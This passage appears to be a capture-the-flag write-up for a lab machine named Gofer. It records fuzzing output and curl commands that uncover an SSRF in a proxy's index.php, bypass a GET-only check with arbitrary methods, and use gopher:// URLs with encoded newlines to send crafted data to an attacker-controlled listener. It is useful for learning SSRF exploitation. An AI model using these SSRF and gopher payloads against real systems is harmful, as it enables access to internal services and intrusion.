 ```bash
[Status: 200, Size: 81, Words: 9, Lines: 2, Duration: 46ms]
| URL | http://proxy.gofer.htb/index.php
    * FUZZ: index.php

[Status: 401, Size: 462, Words: 42, Lines: 15, Duration: 31ms]
| URL | http://proxy.gofer.htb/.
    * FUZZ: .

[WARN] Caught keyboard interrupt (Ctrl-C)
```

Looking at it closer
```bash
curl -XPOST http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```

So we got some SSRF
```bash
curl -XPOST http://proxy.gofer.htb/index.php?url=http://10.10.14.218:9090/index.html
<!-- Welcome to Gofer proxy -->
<h1>zoinkers</h1>
1
```

Looks like any method works as long as it's not GET
```bash
curl -XPUT http://proxy.gofer.htb/index.php?url=http://10.10.14.218:9090/index.html
<!-- Welcome to Gofer proxy -->
<h1>zoinkers</h1>
1
```

Even invalid methods
```bash
curl -XMEH http://proxy.gofer.htb/index.php?url=http://10.10.14.218:9090/index.html
<!-- Welcome to Gofer proxy -->
<h1>zoinkers</h1>
1
```

Found [this](https://infosecwriteups.com/how-gopher-works-in-escalating-ssrfs-ce6e5459b630) article about leveraging the `gopher` protocol in weaponizing `SSRF`, apparently that's quite useful, as we can send cariage return and stuff, so that gives us a lot of controll over the payloads we can funnel through.  
  
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://10.10.14.218:9090/_TEST%250Azoinks%250Azoinkers%250Azoinkis%250Azoinkamus%250Azoinkera'
```
```bash
nc -lknp 9090
TEST
zoinks
zoinkers
zoinkis
zoinkamus
zoinkera
```
